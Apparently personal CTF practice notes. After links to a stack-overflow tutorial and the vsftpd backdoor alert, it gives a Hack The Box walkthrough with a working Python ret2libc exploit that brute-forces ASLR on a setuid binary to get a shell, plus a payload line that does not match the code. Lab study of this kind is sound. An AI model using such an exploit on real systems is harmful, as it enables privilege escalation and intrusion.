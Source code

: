 # Practice

- https://github.com/justinsteven/dostackbufferoverflowgood

## vsftpd backdoor
- https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html

## HTB - Octomber

`/usr/local/bin/ovrflw`

`NX/DEP` is enabled.
`ASLR` is enabled.

Passing a pattern to the binary in gdb finds that there is `112 bytes` before the buffer is
overflowed and the `EIP` is overwritten.

- Path and libc address: `ldd /usr/local/bin/overflw | grep libc​`
- System offset: `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
- "bin/sh" address: `strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`

- Payload: ​ JUNK*112 + libcAddress + JUNK*8 + binShAddress

- Brute forces the binary to bypass ASLR. Note it may take hundreds if not several thousand attempts to hit the correct address.

```
import struct, subprocess

libcBase = 0xb75eb000
systemOffset = 0x00040310
binShOffset = 0x00162bac

libcAddress = struct.pack("<I", libcBase+systemOffset)
exitAddress = struct.pack("<I", 0xd34db33f)
binShAddress = struct.pack("<I", libcBase+binShOffset)

payload = "\x90"*112
payload += libcAddress
payload += exitAddress
payload += binShAddress

i = 0
while True:
  i += 1
  if i%10 == 0:
    print "Attempts: " + str(i)
  subprocess.call(["/usr/local/bin/ovrflw", payload])
```
